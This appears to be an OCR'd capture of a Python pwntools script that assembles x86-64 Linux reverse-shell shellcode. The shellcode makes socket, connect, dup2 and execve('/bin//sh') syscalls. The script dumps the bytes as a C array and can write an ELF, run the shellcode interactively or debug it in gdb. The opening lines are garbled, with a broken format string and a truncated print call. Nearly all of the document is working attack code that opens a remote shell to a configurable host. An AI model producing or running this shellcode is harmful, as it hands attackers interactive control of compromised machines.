 ```python
unsigned char shellc[] = {{{}}};".format(", ".join([format(b, '#02x') for b in bytearray(shellc)])))
  # dump as hex array
  print('
problematic values are highlighted (00,0a,20) check your IP,port...
')
  print(hexdump(shellc, highlight=b'
  '))

shellc = asm ('''
socket:
        push 41
        pop rax
        cdq
        push 2
        pop rdi
        push 1
        pop rsi
	syscall
connect:
	xchg eax,edi
	mov al,42
        mov rcx,%s
        neg rcx
        push rcx
        push rsp
        pop rsi
        mov dl,16
        syscall
dup2:
	push 3
        pop rsi
dup2_loop:
        mov al,33
        dec esi
        syscall
        jnz dup2_loop
execve:
	cdq
	push rdx
	mov rcx, 0x68732f2f6e69622f
	push rcx
	push rsp
	pop rdi
	mov al, 59
	syscall
''' % (sockaddr()))


dumpit(shellc)

if args.EXE:
  ELF.from_bytes(shellc).save('binary')

if args.RUN:
  p = run_shellcode(shellc)
  p.interactive()
elif args.GDB:
  p = debug_shellcode(shellc, gdbscript='''
    # set your pwndbg path here
    source ~/gdb.plugins/pwndbg/gdbinit.py
    context
  ''')
```